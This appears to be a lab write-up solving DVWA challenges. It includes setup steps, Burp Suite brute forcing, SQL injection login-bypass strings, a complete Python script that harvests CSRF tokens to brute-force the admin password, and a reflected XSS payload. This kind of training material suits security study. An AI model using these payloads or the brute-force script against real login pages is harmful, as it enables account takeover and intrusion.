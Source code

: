 ## Download, Install and Use of DVMA as Target <br>

  
### PhpStudy
	
   >(use Phpstudy for reduce the complexity of setting)<br>
   * lauch Apache, and SQL database
    
### DVMA
	
	*  Decompression of DVMA_Master.zip (which downloaded from ‘http://www.dvwa.co.uk/’) under the folder 'phpstudy_pro/wwww/.'
	*  Modify suffix of document 'config.inc.php.dist' ->> 'config.inc.php'.
	*  Modify the content of 'config.inc.php' --->>  modify values of 'db_username' and 'db_password' as 'root'.
	   ( namely, 'db_username'='root' and  'db_password' = 'root'. )
	*  Open the dvma webseit 'http://127.0.0.1/setup.php'.
	*  Login with default credential.
	   ( namely, 'username' = 'admin', 'password' = 'password')
    
    
### DVWA Sulutions of Brute Force: 
  #### Brute Force 
  #### Low Security Level:
    *   View Source
    *   Find that, only 'Login' will be validated, isset(*) checks whether para* is set and return True/False.
    *   Without any defense of Brute Force, also without any Filter of 'username' and 'password'.
    
##### Method 1: Usage of Burpsuite for Brute Force 
	  * Steps:
		    * 1.1 open Burpsuite (Burpsuite is easy to get/download and install from web).
		    * 1.2 click Proxy, set Intercept off firstly, then click 'open browser' to load the webseite,
		    	   which need to be intercepted.
		    * 1.3 input arbitrary value to login, and Burpsuite will get the info about its.
		    * 1.4 'Ctrl+l' or chose 'Action' as 'Send it to Intruder'.
		    * 1.5 Add password as playload value.
		    * 1.6 Fill the playload set, and start attack.
		    * 1.7 Actually, you will find the response length of the correct password is different as others.
	    
##### Method 2: Sql Injection
	  * 2.1 
		-username：  admin ' or ' 1 ' = ' 1
		-password: (none)
	  * 2.2 
		-username: admin ' #   (#:annotation of rest request sentence.)
		-pass: (none)
            
#### Medium Security Level:
  * Different from Low Level, a new function is added.
  
	     * mysql_real_escape_string function, this function will transfer the special symbols, like " ' ", 
	       namely, this function can defence Sql Injection Attack.
	       Thus, the Sql Injection Attack in medium level unfeasible nowly.
	     * but the Brute Force with Burpsuit is still work in this level.
	       (same as low level, see the steps discription of low level)
            
#### Highl Security Level:
   * At high level, a function of generation of CSRF Token is added. 
   
           * namely, generateSessionToken(); // Generate Anti-CSRF token  
           * that means, the Request Url will contains a 'user_token' by sending to Server. And the Sever checks the recieved token firstly, if token is valid, then the Server 
             operates the Sql queries.
	     
* To achieve the goal at high security level, we need to write a phython script to brute force the password.
   
* Constuct request to server to get response

		req = urllib.request.Request(url=requrl,headers=header)
		
* Get ' user_token ' , we need to use BeautifulSoup package to read the reponse content, and parser the page to get 'token'
	  
		  soup = BeautifulSoup(the_page,"html.parser")
		  user_token = soup.find('input',{'name':'user_token'})['value']
	   
* Brute force the password by sending request to the server with following URL, which including the param 'user_token' additional

	   	 requrl = "http://192.168.178.34/vulnerabilities/brute/"+"?username=admin&password="+line.strip()+"&Login=Login&user_token="+user_token 
		
* Use the Brupsuite to intercept the whole runtime of python code, we need to set the ProxyHandler of those code, so that, the Proxy is same as Brupsuite's.
      
      		proxy_handler = urllib.request.ProxyHandler({'http': '127.0.0.1:8080'})
			opener = urllib.request.build_opener(proxy_handler)
          
##### Complete Code is as following:

	from bs4 import BeautifulSoup
	import urllib.request


	proxy_handler = urllib.request.ProxyHandler({'http': '127.0.0.1:8080'})
	opener = urllib.request.build_opener(proxy_handler)


	header = {
		'Host': '192.168.178.34',
			'Cache-Control': 'max-age=0',
			'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.183 Safari/537.36',
			'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
			'Referer': 'http://192.168.178.34/vulnerabilities/brute/index.php',
			'Accept-Encoding': 'zip, deflate',
			'Accept-Language': 'zh-CN,zh;q=0.9',
			'Cookie': 'security=high; PHPSESSID=ra6hjmncufirj8n9qgioejm854'
			}

	requrl = "http://192.168.178.34/vulnerabilities/brute/"

	def get_token(requrl,header):
		req = urllib.request.Request(url=requrl,headers=header)
		response = opener.open(req)
		the_page = response.read()
		soup = BeautifulSoup(the_page,"html.parser")
		print(len(the_page),response.getcode())
		user_token = soup.find('input',{'name':'user_token'})['value']  #get the user_token
		#print(user_token)
		return user_token

	user_token = get_token(requrl,header)

	i=0

	for line in open('test'):
		requrl = "http://192.168.178.34/vulnerabilities/brute/"+"?username=admin&password="+line.strip()+"&Login=Login&user_token="+user_token
		i = i+1
		print(i,'admin',line.strip(),end=" ")
		user_token = get_token(requrl, header)
		if (i == 7):
			break
			
		# because 'test' is only including 7 passwords.
        
        
    
## XSS(Reflected)
      * View Source
      * Find that, value of param 'name' is directly used, and without any Checking and filtering of Script.
      * Input: <script>alert('hello world')</script>
